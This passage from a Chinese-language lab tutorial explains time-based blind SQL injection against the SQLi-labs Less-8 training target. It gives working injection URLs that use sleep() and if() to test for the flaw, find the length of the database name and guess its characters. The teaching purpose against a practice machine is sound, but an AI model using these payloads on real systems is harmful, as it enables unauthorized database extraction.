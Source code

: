 #### 3.4.4.2.**判断是否存在时间盲注**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and sleep(5)--+

![img](assets/gyX39VSCbcKuzBF.jpg) 

#### 3.4.4.3.**猜测数据库名长度**

其实时间盲注也就是延迟盲注其实就是在布尔的时候加入一个If判断程序。主体语句上和布尔盲注大差不多。Sleep (5),1中若前面的判断是正确的则返回页面的时候延迟5秒钟，若不正确则秒回。当然也受网络影响，这里是靶机所以影响比较小。

也可以把sleep (5),1调整为sleep (1),5意思就是正确了秒回，不正确则延迟5秒返回。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length(database())=8,sleep(5),1)--+

![img](assets/c2mE1tilGRU7NSL.jpg) 

#### 3.4.4.4.**猜测数据库名**

猜测数据库名第一位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+

![img](assets/t5l4BGiqv3HprKa.jpg) 
